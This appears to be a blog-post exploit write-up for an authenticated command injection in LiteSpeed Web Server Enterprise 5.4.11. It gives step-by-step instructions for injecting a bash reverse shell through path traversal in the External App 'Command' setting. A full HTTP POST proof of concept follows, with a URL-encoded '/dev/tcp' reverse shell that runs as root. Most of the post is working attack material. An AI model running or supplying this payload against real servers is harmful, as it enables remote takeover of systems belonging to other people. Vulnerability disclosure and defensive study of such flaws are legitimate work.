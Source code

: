 ```yaml
---
layout: post
title: LiteSpeed Web Server Enterprise 5.4.11 - Command Injection (Authenticated)
date: 2021-02-07 00:00:01 +5:30
categories: [Medium]
tags: [Bug, Exploit] # add tag
---
```


### Date: 05/02/2021
### Exploit Author: cmOs - SunCSR
### [Vendor Homepage](https://www.litespeedtech.com)
### [Software](https://www.litespeedtech.com/products)
### Version: 5.4.11
### Ubuntu/Kali Linux


Step 1: Log in to the dashboard using the Administrator account.

Step 2 : Access Server Configuration > Server > External App > Edit

Step 3: Set "Start By Server *" Value to "Yes (Through CGI Daemon)

Step 4 : Inject payload ``` "fcgi-bin/lsphp5/../../../../../bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" to "Command" value```

Step 5: Graceful Restart

# [POC]

```bash
POST /config/confMgr.php HTTP/1.1
Host: 192.168.1.6:7080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101
Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*
;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer:
https://192.168.1.6:7080/config/confMgr.php?m=serv&p=ext&t=A_EXT_FCGI&r=file&a=E&tk=0.59220300%201612516386
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Origin: https://192.168.1.6:7080
Connection: close
Cookie: LSWSWEBUI=85fa7ba9b37d18d57e41e092a2a2a61f;
lsws_uid=j%2FsI8GRiKBc%3D; lsws_pass=c7pC2izvdbQ%3D
Upgrade-Insecure-Requests: 1

name=file&address=127.0.0.1%3A5434&note=&maxConns=2000&env=&initTimeout=1&retryTimeout=1&persistConn=1&pcKeepAliveTimeout=20&respBuffer=0&autoStart=1&path=fcgi-bin%2Flsphp5%2F..%2F..%2F..%2F..%2F..%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.1.6%2F1234+0%3E%261%27&backlog=&instances=&extUser=root&extGroup=root&umask=&runOnStartUp=3&extMaxIdleTime=&priority=&memSoftLimit=&memHardLimit=&procSoftLimit=&procHardLimit=&a=s&m=serv&p=ext&t=A_EXT_FCGI&r=file&tk=0.59220300+1612516386&file_create=
```
